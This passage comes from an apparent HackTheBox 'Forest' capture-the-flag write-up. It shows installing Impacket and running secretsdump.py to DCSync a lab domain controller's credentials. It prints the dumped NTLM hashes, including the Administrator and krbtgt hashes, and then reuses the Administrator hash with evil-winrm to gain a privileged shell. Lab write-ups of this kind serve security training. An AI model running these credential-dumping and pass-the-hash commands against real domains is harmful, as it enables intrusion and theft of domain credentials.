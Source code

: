 I recommend always downloading and using the latest version of Impacket for its best features. Installation and use are shown below.

[Impacket Repository](https://github.com/fortra/impacket)

```bash
git clone https://github.com/fortra/impacket.git
python3 -m pip install ./impacket
python3 impacket/examples/secretsdump.py -just-dc -no-pass FOREST\$@10.10.10.161
```

![Screenshot](/assets/images/2023-01-29-Forest-HTB-Writeup/Screenshot_20230129_233755.png)

```bash
Impacket v0.10.1.dev1+20230120.195338.34229464 - Copyright 2022 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

The `htb.local\Administrator` account is going to be the domain administrator on the target machine with the highest privileges. We can utilize the NT hash supplied in the DCSync response to authenticate to the box with the Administrator account with Evil-WinRM. This creates a session on the target machine as the most privileged user.

```bash
evil-winrm -u administrator -i 10.10.10.161 --hash '32693b11e6aa90eb43d32c72a07ceea6'
```

![Screenshot](/assets/images/2023-01-29-Forest-HTB-Writeup/Screenshot_20230129_233817.png)
